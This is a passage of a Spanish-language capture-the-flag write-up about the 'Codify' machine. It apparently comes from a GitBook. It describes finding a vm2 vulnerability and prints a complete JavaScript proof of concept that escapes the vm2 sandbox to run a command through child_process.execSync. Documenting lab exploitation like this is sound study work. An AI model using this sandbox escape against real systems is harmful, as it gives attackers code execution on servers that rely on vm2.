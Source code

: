 
Realizando una búsqueda por Internet de posibles vulnerabilidades de la biblioteca `vm2`, nos encontramos con el siguiente repositorio de GitHub.

<figure><img src="../../.gitbook/assets/imagen (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244" %}

En el repositorio de GitHub, se nos proporciona un PoC para realizar la explotación de la vulnerabilidad y poder escapar del `Sandbox` de la aplicación web de `Codify`. En este caso, lo que realizará es mostrar el resultado del binario `/usr/bin/id`.

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo /usr/bin/id');
}
`

console.log(vm.run(code));
```
